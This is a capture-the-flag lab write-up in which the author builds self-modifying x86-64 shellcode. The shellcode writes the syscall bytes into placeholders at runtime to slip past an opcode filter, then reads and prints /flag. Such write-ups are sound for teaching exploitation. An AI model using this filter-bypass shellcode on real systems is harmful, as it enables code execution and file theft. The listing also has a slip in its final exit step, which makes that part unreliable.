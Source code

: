 # Babyshell Level 5
Okay ! Now we are talking, this challenge was a little bit harder than the previous one, but was really fun to solve. Itried to solved it for like 3 hours before i quitted and the next day i was able to complete it on my own.

## Solving the Challenge
**What is the task :** We need to write a shellcode that does not contains any **syscall** (0x0f05), **sysenter** (0x0f34) or **int** (0x80cd) opcodes in our shellcode, this makes it a LOT harder for us to call into the kernel since we n eed to write **self-modifying code**, for this challenge we will heavily rely on labels, make sure you know what they  are before jumping into this !

So, after a bit of researching on how i could write this "self-modifying" shellcode, i found on discord that we could use a label for that, we are going to put **.word** values in our labels, with the value of 0x0000, however when the program will run, it will modify the value of our **.word** in the label for the syscall opcode, and we can just call the location of [rip+label] to execute the syscall instructions, let's start writing code :
```x86asm
.global _start
_start:
.intel_syntax noprefix
    # prepare syscall
    mov byte ptr[rip+syscall1], 0x0f
    mov byte ptr[rip+syscall1+1], 0x05
    lea r9, [rip+syscall1]

    # clear registers
    xor rbx, rbx
    xor rdx, rdx
    xor rdi, rdi
    xor rsi, rsi
    xor r10, r10

    # open file
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rax, 2
    call r9                 # syscall we jump inside our label

# sys_sendfile
syscall1:
    .word 0x0000
    
    xor r9, r9
    # prepare next syscall
    mov byte ptr[rip+syscall2], 0x0f
    mov byte ptr[rip+syscall2+1], 0x05
    lea r9, [rip+syscall2]

    xor rsi, rsi
    xor r10,r10
    xor rdi, rdi
    xor rdx, rdx
    xor rbx, rbx
    # sendfile
    mov rdi, 1
    mov rsi, rax
    mov r10, 100
    mov rax, 40
    call r9

# sys_exit
syscall2:
    .word 0x0000

    xor r9, r9
    # prepare syscall
    mov byte ptr[rip+syscall3], 0x0f
    mov byte ptr[rip+syscall3], 0x05
    lea r9, [rip+syscall3]
    xor rsi, rsi
    xor r10, r10
    xor rax, rax
    xor rdi, rdi
    mov rax, 60
    mov rdi, 5
    call r9

syscall3:
    .word 0x0000
```

I am not sure it's the best optimized way to do this challenge, but i decided to do it this way and it works pretty well, i do a lot of registers clearing because i had an issue with the program where registers would change before executing syscall, by clearing register i was able to execute each syscalls and write the flag properly :)
